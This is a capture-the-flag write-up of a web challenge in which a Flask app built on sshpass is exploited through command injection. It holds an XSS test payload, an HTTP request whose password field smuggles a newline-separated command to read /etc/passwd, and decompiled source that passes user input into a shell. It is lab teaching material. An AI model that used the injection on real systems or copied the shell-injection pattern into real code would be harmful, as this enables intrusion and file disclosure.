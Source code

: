 ```yaml
---
title: '[SpiderLabsCTF] Remote Management System'
published: true
tags: [writeup, web, rce, command_injection]
author: ishtar
---
```


# Remote Management System (Web)
At first, we provided real details in order to understand the application\'s logic.
    + Using the `sshpass` utility, the server was connecting to an SSH server using the provided details
    + Upon login, the command `show config` was issued

We decided to test if the application would reflect back any output from the above command into the webpage. Thus, using `sudo cp /bin/cat /bin/show` we create a copy of the `cat` utility called `show` and using `echo "<script>aler(1)</script>" > config` we create the file that the server will request to read. Interestingly, the server reflected back the contents of the `config` file in the webpage and it was also vulnerable to XSS.

We tried several payloads in order to identify other vulnerabilities like XXE, SSTI or characters that would break the applications logic. None of them worked.

Going back to the application, we tried to find a command injection vulnerability by manually fuzzing the available parameters using Burp. Good news, RCE was possible thus we started enumerating the server.

```
POST / HTTP/1.1
Host: spiderlabsctf.com:6060
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://spiderlabsctf.com:6060
Connection: close
Referer: http://spiderlabsctf.com:6060/
Upgrade-Insecure-Requests: 1

hostname=/&port=1&username=/&password=-w+less+-FX+/etc/passwd+%0a
```

After reading both the `app.py` and `remoteapp.pyc` files (decompiled) we were unable to find the flag. We also used `grep FLAG -R /` in order to recursively check each file for the flag, without any luck.

`app.py`
```python
import sys
from remoteapp import remoteapp
from flask import Flask, request, render_template, Response
app = Flask(__name__)

@app.route("/", methods=['GET', 'POST'])
def manage():
    if len(request.form) > 0:
        output = remoteapp(request.form)
        return render_template('home.html', output=output)
    else:
        return render_template('home.html')
@app.route('/css/<path:path>')
def send_css(path):
    return Response(open("css/%s" % path, "r").read(), mimetype='text/css')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=int(sys.argv[1]))
```

`remoteapp.py (decompiled)`
```python
import subprocess, re, redis
from flask import Markup

def remoteapp(data):
    try:
        password = check_param(data['password'])
        username = check_param(data['username'])
        hostname = check_param(data['hostname'])
        port = int(data['port'])
        cmd = 'sshpass -p %s ssh -o StrictHostKeyChecking=no -p %s %s@%s show config' % (password, port, username, hostname)
        print cmd
        output = subprocess.Popen([cmd], shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
        stdout, stderr = output.communicate()
        return Markup("<div class='alert alert-warning'>%s</div>" % stdout)
    except:
        return Markup("<div class='alert alert-danger'>Could not fetch remote data</div>")


def check_param(data):
    if not re.match('^[a-zA-Z0-9 \\.:/\\-]*$', data):
        print '%s failed regex check' % data
        save_query(data)
        raise Exception('regex violation')
    return data


def save_query(data):
    instance = redis.StrictRedis(host='127.0.0.1', db=0)
    instance.set(data, data)
```

Finally, we saw that a redis server was running. Issuing a simple `redis-cli get FLAG` revealed the flag.
